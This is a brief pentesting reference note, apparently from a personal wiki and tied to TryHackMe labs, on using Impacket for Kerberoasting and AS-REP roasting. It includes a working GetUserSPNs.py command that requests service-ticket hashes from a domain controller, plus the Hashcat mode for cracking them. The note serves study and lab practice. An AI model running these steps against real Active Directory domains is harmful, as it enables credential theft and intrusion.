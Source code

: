 # Using Impacket

## Kerberoasting

Impacket can identify [kerberoastable](kerberos.md) accounts and dump packets remotely. It comes standard with Kali Linux.

```bash
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py ${DOMAIN}/${USER}:${PASSWORD} -dc-ip $DOMAIN_CONTROLLER_IP -request
```

The password hashes output here can then be cracked with [Hashcat](hashcat.md) (use the 13100 hash mode).

## AS-REP Roasting

Impacket (via GetNPUsers.py) support [AS-REP roasting](kerberos.md). However, GetNPUsers.py requires that user accounts already be enumerated and roastable accounts identified.

When using GetNPUsers.py, specify the target as `${DOMAIN}/` (i.e., leave off the user-part).

## References

* [TryHackMe: Attacking Kerberos](tryhackme-attacking-kerberos.md)
* [Attacktive Directory](tryhackme-attacktive-directory.md)

- - - -

👤 Nathan Acks  
📅 December 6, 2021
